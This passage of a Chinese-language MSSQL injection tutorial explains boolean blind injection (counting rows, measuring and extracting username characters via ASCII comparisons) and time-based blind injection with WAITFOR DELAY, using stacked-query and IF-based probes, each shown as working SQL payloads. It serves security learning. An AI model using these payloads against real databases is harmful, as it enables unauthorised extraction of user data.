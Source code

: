 求当前数据库某表字段的个数

```sql
select * from users where id = '1' and 	13 = (select count(*) from users)--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_28_pMtLOATz.png)

求当前数据库user表username字段第一个值的长度

```sql
select * from users where id = '1' and 	4 = (select top 1 len(username) from users)--+
-- 这里要是知道了id值，可以用where [condition] id 来代替 top 1 ... where len(username) not in (/\d/)
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_28_AiaYDOmr.png)

求当前数据库user表username字段第一个值的ascii码值

```sql
select * from users where id = '1' and 68 = ascii(substring((select top 1 username from users),1,1))--+
-- 依次求解，使用top 1 ... where username/id... not in('Dumb')...
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_S6bvW1gd.png)



### 时间盲注
延时函数 `waitfor delay`
WAITFOR是SQL Server中Transact-SQL提供的⼀个流程控制语句。它的作⽤就是等待特定时间，然后继续执⾏后 续的语句。它包含⼀个参数DELAY，⽤来指定等待的时间。
如果将该语句成功注⼊后，会造成数据库返回记录和 Web请求也会响应延迟特定的时间。由于该语句不涉及条件判断等情况，所以容易注⼊成功。
语法：
```sql
WAITFOR DELAY '0:0:n'
```
示例：
```sql
WAITFOR DELAY '0:0:4' --  表⽰延迟4秒
```
时间盲注通过页面返回的内容的响应时间差异进行条件判断，但是在mssql中，默认可使用堆叠查询，这个也是判断mssql与mysql的区别之一，所以在判断注入点有三种方式，如下：
**直接带入查询**

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_Osac5BjL.png)

**堆叠查询判断注入点**

```sql
select * from users where id = '1';waitfor delay '0:0:3'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_ak4mplgX.png)

**if判断注入点**

```sql
select * from users where id = '1' if (1=1) waitfor delay '0:0:4'
select * from users where id = '1' if (1=2) waitfor delay '0:0:4'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_uL78NDZ0.png)
